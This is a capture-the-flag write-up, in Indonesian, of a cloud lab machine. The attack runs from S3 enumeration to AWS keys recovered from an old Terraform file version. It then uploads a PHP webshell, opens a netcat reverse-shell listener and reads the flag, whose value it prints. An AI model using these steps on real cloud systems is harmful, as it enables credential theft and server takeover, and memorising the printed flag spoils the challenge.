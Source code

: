 #cloud #easy #s3 #aws #rce

writeup by: twang


# Steps
1. Buat persiapan dengan memasukkan informasi hostname pada `/etc/hosts`
```sh
sudo nano /etc/hosts

# masukkan entry berikut ini
<IP_address> unveiled.htb
``` 


2. Di dalam page source web, terdapat dua informasi penting. Yang pertama adalah username `galen` dan source yang mengarah kepada link  s3 bucket.
```html
<!-- Last updated Tue 20 Jun 2023 02:39:53 PM by galen-->

<script src="http://s3.unveiled.htb/unveiled-backups/main.js"/>
```


3.  Melihat informasi tersebut, kita bisa mendaftarkan IAM user pada AWS dan mendapatkan `aws_access_id` dan `aws_access_key`. Kemudian masukkan kedua informasi tersebut pada dengan perintah `aws configure --profile test
   

4. Untuk mempercepat proses pengerjaan, gunakan script berikut ini melalui bash terminal.
```shell
export AWS_ENDPOINT_URL=http://s3.unveiled.htb
function aws() {
	export AWS_DEFAULT_OUTPUT=yaml 
	if [ -z "$AWS_ENDPOINT_URL" ]
	then
		command aws "$@"
	else
		command aws "$@" --endpoint-url "$AWS_ENDPOINT_URL"
	fi
}
```

5. Listing terhadap aws s3 bucket dengan menggunakan `s3api`. Terdapat dua bucket pada endpoint url tersebut, yaitu `unveiled-backups` dan `website-assets`.  Pada bucket `unveiled-backups` ini terdapat dua file, yaitu `index.html` dan `main.tf`.  
```sh
$ aws s3api list-buckets --profile test 
Buckets:
- CreationDate: '2023-07-17T10:19:00+00:00'
  Name: unveiled-backups
- CreationDate: '2023-07-17T10:19:01+00:00'
  Name: website-assets
Owner:
  DisplayName: webfile
  ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a


$ aws s3api list-objects-v2 --bucket 'unveiled-backups' --profile test
Contents:
- ETag: '"3460d1a10fd1e53c6dbc1f8acd4c3a1b"'
  Key: index.html
  LastModified: '2023-07-17T10:19:04+00:00'
  Size: 4495
  StorageClass: STANDARD
- ETag: '"9c9e9d85b28ce6bbbba93e0860389c65"'
  Key: main.tf
  LastModified: '2023-07-17T10:19:05+00:00'
  Size: 1107
  StorageClass: STANDARD

```


6. `main.tf` adalah sebuah file Terraform yang kemungkinan berisi `aws_access_id` dan `aws_key` . Namun sayangnya kedua parameter tersebut tidak ditemukan pada `main.tf`. Kemungkinan terdapat versi file lama yang berisikan value sensitif tersebut.
```shell
$ aws s3 sync s3://unveiled-backups/ .
download: s3://unveiled-backups/main.tf to ./main.tf
download: s3://unveiled-backups/index.html to ./index.html
```


7. Pada bucket `unveiled-backups` terdapat ACL dengan permission `FULL_CONTROL` yang diberikan kepada user `webfile`.
```sh
$ aws s3api get-bucket-acl --bucket unveiled-backups --profile test
Grants:
- Grantee:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
    Type: CanonicalUser
  Permission: FULL_CONTROL
Owner:
  DisplayName: webfile
  ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a

```


7. Melihat version pada bucket `unveiled-backups` untuk mencari informasi sensitif pada file `main.tf`. Kita dapatkan VersionId dengan nilai `bf4e51a6-5bf0-4622-a833-b0948bbc2acd`.
```sh
$ aws s3api list-object-versions --bucket unveiled-backups --profile test
Versions:
...
- ETag: '"4947c773e44f5973a9c3d37f24cb8e63"'
  IsLatest: false
  Key: main.tf
  LastModified: '2023-07-17T10:19:03+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 1167
  StorageClass: STANDARD
  VersionId: bf4e51a6-5bf0-4622-a833-b0948bbc2acd
```


8. Mengunduh file `main.tf` pada versi `bf4e51a6-5bf0-4622-a833-b0948bbc2acd` dengan dama `main.tf.old`. Kemudian membaca file tersebut. Kita akan mendapatkan `aws_access_key` dan `aws_secret_key` yang dapat kita gunakan pada aws cli.
```shell
$ aws s3api get-object --bucket unveiled-backups --key main.tf --version-id bf4e51a6-5bf0-4622-a833-b0948bbc2acd main.tf.old --profile test
AcceptRanges: bytes
ContentLength: 1167
ContentType: binary/octet-stream
ETag: '"4947c773e44f5973a9c3d37f24cb8e63"'
LastModified: '2023-07-17T10:19:03+00:00'
Metadata: {}
VersionId: bf4e51a6-5bf0-4622-a833-b0948bbc2acd


$ cat main.tf.old                    
variable "aws_access_key"{
  default = "AKIA6CFMOGFLAHOPQTMA"
}
variable "aws_secret_key"{
  default = "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"
}
...

```


8. Menggunakan nilai `aws_access_key` dan `aws_secret_key` dan membuat satu profile baru bernama `unveilied`. Profile ini kemudian akan digunakan sebagai konfigurasi yang dipakai untuk mengakses bucket `website-assets` 
```shell
$ aws configure --profile unveiled
AWS Access Key ID [None]: AKIA6CFMOGFLAHOPQTMA
AWS Secret Access Key [None]: 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
Default region name [None]: ap-southeast-3
Default output format [None]:


$ aws sts get-caller-identity --profile unveiled
Account: '683633011377'
Arn: arn:aws:iam::683633011377:user/will
UserId: AKIAIOSFODNN7DXV3G29

```


9. Melakukan listing directory pada bucket `website-assets` dengan menggunakan profile `unveiled`.
```
$ aws s3 ls s3://website-assets --profile unveiled
2023-07-17 17:19:02      91790 background.jpg
2023-07-17 17:19:02       4372 index.html

```


10. Profile `unveiled` ini dapat digunakan untuk mengunggah webshell menuju bucket `web-assets` tersebut.
```
$ aws s3 cp shell.php s3://website-assets --profile unveiled
upload: ./shell.php to s3://website-assets/shell.php 

$ nc -lnvp 4444

$ curl http://<ip_address>/shell.php
```


11. Flag ada pada lokasi `$ cat /var/www/flag.txt:` `HTB{th3_r3d_pl4n3ts_cl0ud_h4s_f4ll3n}`



# Referensi
- Writeups: [https://github.com/godylockz/Writeups/blob/main/Cloud-Unveiled.md](https://github.com/godylockz/Writeups/blob/main/Cloud-Unveiled.md)
